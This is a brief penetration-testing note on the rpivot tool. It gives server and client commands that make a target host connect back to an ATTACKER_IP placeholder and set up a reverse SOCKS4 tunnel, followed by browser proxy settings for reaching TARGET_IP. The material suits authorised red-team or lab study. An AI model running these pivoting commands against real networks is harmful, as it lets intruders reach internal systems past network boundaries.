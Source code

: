 # Rpivot

## Github repo: https://github.com/klsecservices/rpivot.git

## SOCKS4 proxy

 - python server.py --server-port 9999 --server-ip ATTACKER_IP --proxy-ip 127.0.0.1 --proxy-port 1080 (Attacker)

 - python client.py --server-ip ATTACKER_IP --server-port 9999 (Target)

### Now go to the web browser, then go to "Connections Settings"

#### 1) Manual proxy configuration

#### 2) On "SOCKS Host", write 127.0.0.1 on port 1080

#### 3) Click the "SOCKS v4" radio button

#### 4) On "No proxy for", write 127.0.0.1

#### 5) Browse to TARGET_IP
